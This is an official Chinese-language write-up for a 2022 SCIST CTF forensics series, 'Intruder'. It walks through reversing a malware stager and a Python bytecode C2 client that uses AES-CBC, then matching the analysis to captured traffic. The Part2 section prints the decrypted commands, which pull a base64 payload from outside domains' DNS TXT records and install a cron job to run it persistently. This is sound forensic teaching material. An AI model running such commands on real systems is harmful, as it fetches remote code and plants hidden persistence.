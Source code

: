 ```yaml
---
title: '2022 Final CTF Misc 官方解答'
author: "TwinkleStar03"
tags: [SCIST, Write-Up]
categories: [CTF]
date: 2022-08-11
description: 幫 SCIST 出了一個系列 Forensic 題目，共三題的 Intruder 題目官方解答。
---
```



---
## Intruder
### Beginning
題目給了兩個檔案，pcap 跟 binary，然後 binary 已經告知是 stager ㄌ。
先把 pcap 丟進去 wireshark 後，會發現沒有什麼可以直接看出個所以然的包可以看，所以就只能從 binary 下手，看看實際上到底做了什麼事情。

### Part1 - Stager Reverse
把 Stager 丟進去喜愛的工具內，可以發現邏輯很簡單，在 main 可以看到有兩個 exec 的 function，而傳入的參數是一個奇怪字串與字串長度，
實際逆向完 exec 後可以知道第一個 part1 的 flag，而這個 flag 就是用來對奇怪字串做 XOR decryption 的，解出來的字串會被送進去 system 後執行。


### Part2
解出來的指令:
- `(dig m.r2s.tw TXT +short; dig m2.r2s.tw TXT +short) | tr -d '" \n' | base64 -d > /var/syslog`
- `echo "*/10 * * * * python3.9 /var/syslog mm.r2s.tw 35540" > /var/auth.log`
- `crontab /var/auth.log`

可以知道程式會利用 dig 去取得 domain 的 txt record，抓下來後 `base64 -d` 會得出一個檔案，看後續的指令可以知道該檔案應該是 python 檔，但不確定是 pyc 還是 source code，所以需要實際上把檔案生出來後才可以知道下一步。

如果已經做到這邊也把檔案弄好了，就可以知道這是一份 python3.9 的 pyc，所以接下來要逆向 Python Bytecode。
在這個 pyc 中可以知道:
1. Part2 的 flag 
2. client 跟 c2 取得了 Key, IV 並使用 AES_CBC 來對接下來的溝通做加密

### Part3
走完 Part2 後會發現一件事情，c2 command 的執行流程並沒有被 hardcoded 在 pyc 內，取而代之的是透過接受資料後再經過 marshal 操作最後丟進去 eval，可以知道這邊是透過傳遞 python code object 然後執行任意指令。
所以要知道實際上的行為的話要先把 pcap 內的相關資料抓取繼續做逆向。

做完逆向之後會得出兩個主要的 function： `cat` 跟 `ls`，接下來只要將 pcap 內的指令跟取得的回覆一一對應後就可以知道惡意程式拉下哪檔案，其中一個 pdf 檔案就是 part3 的 flag。


